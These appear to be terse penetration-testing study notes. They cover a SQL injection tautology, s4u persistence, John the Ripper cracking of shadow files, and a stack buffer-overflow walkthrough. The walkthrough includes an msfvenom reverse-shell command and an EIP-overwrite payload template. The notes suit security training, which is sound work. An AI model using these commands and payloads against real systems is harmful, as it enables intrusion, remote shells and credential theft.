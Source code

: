 <p>sometimes you dont need the '</p>
<p>id=1 OR 1=1</p>

<h2>backdoor</h2>

<p>win</p>
<p>s4u persistence -msfconsole</p>

<h2>password attacks</h2>

<h3>jtr</h3>
<p>bruteforce</p>
<code>unshadow passwd shadow > result</code>
<p>dictionary</p>
<code>john -wordlist=file.txt filestocrack</code>
<p>rainbow tables</p>
<p>ophcrack</p>

<h2>BOF</h2>

<p>main goal is to overflow buffer space to overwrite EIP(Extended Instruction Pointer</p>

<p>Steps for BOF</p>
<li>Spiking - Finding vulnerable part of the program</li>
<li>Fuzzing - Sending characters to the vulnerable part of the program to break it</li>
<li>Finding Offset - This is where the program crashes</li>
<li>Overwrite the EIP using the Offset found</li>
<li>Find right module</li>
<li>Shellcode</li>

<h3>Tools</h3>
<p>Immunity Debugger</p>
<p>generic_send_tcp</p>

<h2>Spiking</h2>
<p>readelf -s "program"</p>
<code>
  s_readline();
  s_string("TRUN ");
  s_string_variable("0");
</code>

<p>metasploit module for pattern</p>
<code>pattern_create.rb -l "bytes"</code>
<code>pattern_offset -l "bytes" -q "what data is in EIP HEX"</code>
<p>Bad Char checker</p>
<p>https://github.com/cytopia/badchars</p>
<p>Look at hexdump check for missing characters</p>
<p>finding module</p>
<code>https://github.com/corelan/mona</code>
<code>nasm_shell.rb</code>
<code>msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT EXITFUNC=thread -f c -a x86 -b "badcharacters"</code>

<code>shellcode= "A" * 2002 + "\xaf\x11\x50\x62 - this address is from nasm_shell.rb JMP ESP" + "\x90" * 32 + overflowfrommsfvenom</code>
